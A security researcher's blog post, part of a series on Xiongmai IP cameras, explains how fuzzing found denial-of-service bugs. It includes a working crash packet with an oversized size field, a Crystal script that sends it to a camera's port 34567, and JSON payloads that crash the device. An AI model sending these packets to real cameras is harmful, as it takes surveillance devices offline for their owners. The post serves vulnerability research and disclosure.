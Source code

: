 ```yaml
---
layout: post
title:  "Xiongmai - An Investigative Journey 9 - Denial of Service"
date:   2019-09-04 08:00:00 +0100
tags: xiongmai, hacking, ipc, denial of service, dos
permalink: /xiongmai/9
---
```

During my fuzzing with Radamsa I uncovered a DoS that would take my camera down via the unprivileged user account. Lets find out exactly what caused the crash!

The first thing I did was backup the string, then I cut pieces out until the crash stopped working.

The first thing I did was cut out the "message" portion of the packet, the DoS still worked. After, I started removing bits of the header, which was also the wrong size. I also changed values in it to see what caused caused the crash and what didn't. I found that a size field over 0x80000000 would cause the crash.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\x85\x05" + "\x00\x00\x00\x80"
</code></pre>

This could mean a couple things, but most likely that someone used a signed variable for an unsigned integer, since size can never be below 0, this could cause an integer overflow error of some kind, most likely because the program is trying to read in a message size, either far beyond what was expected, or in the negative, causing a crash.

Currently, the exploit uses the magic for OPMonitor, but this vulnerability should affect any command we are allowed to access, and since the "login" command is the most unprivilieged, that should be the next target.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\xe8\x03" + "\x00\x00\x00\x80"
socket = MagicSocket.new("192.168.11.109", 34567)
#socket.login "default", Dahua.digest("tluafed")
socket.send crash_string
puts "SENT: #{crash_string.inspect}"
reply = socket.receive_message
puts "GOT: #{reply.message}"
</code></pre>

This produces:

<pre><code>
SENT: "\xFF\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\xE8\u0003\u0000\u0000\u0000\x80"

Unhandled exception:  (MagicError::ReceiveEOF)
  from src/magic_fuzzer/magic_socket.cr:0:7 in 'receive_message'
  from src/sandbox.cr:69:1 in '__crystal_main'
  from /usr/share/crystal/src/crystal/main.cr:97:5 in 'main_user_code'
  from /usr/share/crystal/src/crystal/main.cr:86:7 in 'main'
  from /usr/share/crystal/src/crystal/main.cr:106:3 in 'main'
  from __libc_start_main
  from _start
  from ???
</code></pre>

The ReceiveEOF proves that the socket closed and the server went down.

The camera will go down for about 2 minutes, while still responding to pings for a short period of time while it reboots. The client cannot connect during this reboot period.

<iframe width="616" height="380" src="https://www.youtube.com/embed/SnyPJtDDMFQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

While we do have an already working DoS exploit, there is a lot to be learned in further potential fuzzing. Working with Radamsa was a snap, and helped me find two new vulnerabilities, the "Message Quotes" and "Options Wrong Type" vulnerabilities.

## Message Quotes DoS
This one takes advantage of some error made in JSON processing, when given a message that consists entirely of two quotes, the camera crashes. Not really too much to say about it. Like the size int problem, this one works on all commands.
## Options Wrong Type DoS

This takes advantage of another issue in the JSON processing the camera's server does. This one only works on specific commands; OPTalk, OPMonitor, and OPRecordSnap. When these commands are sent, the have the option of including a hash of options under the root as the same name of command.

Example:
<pre><code class="json">
{
  "Name": "OPMonitor",
  "OPMonitor":  {
    "Action": "Claim",
    "Action1":  "Start",
    "Parameter":  {
      "Channel":  0,
      "CombinMode": "NONE",
      "StreamType": "Main",
      "TransMode":  "TCP"
    }
  },
  "SessionID":  "0x0000000007"
}
</code></pre>

Under the "OPMonitor" key, there is a hash of options. The server always expects the value under this key to always be a hash. However, weak checking, poor testing, and bad error handling allows us to crash the camera by swapping the hash with an non-nested type, like a string or a number. For example, the following string crashes the camera.

<pre><code class="json">
{
  "Name": "OPMonitor",
  "OPMonitor": 0,
  "SessionID":  "0x0000000007"
}
</code></pre>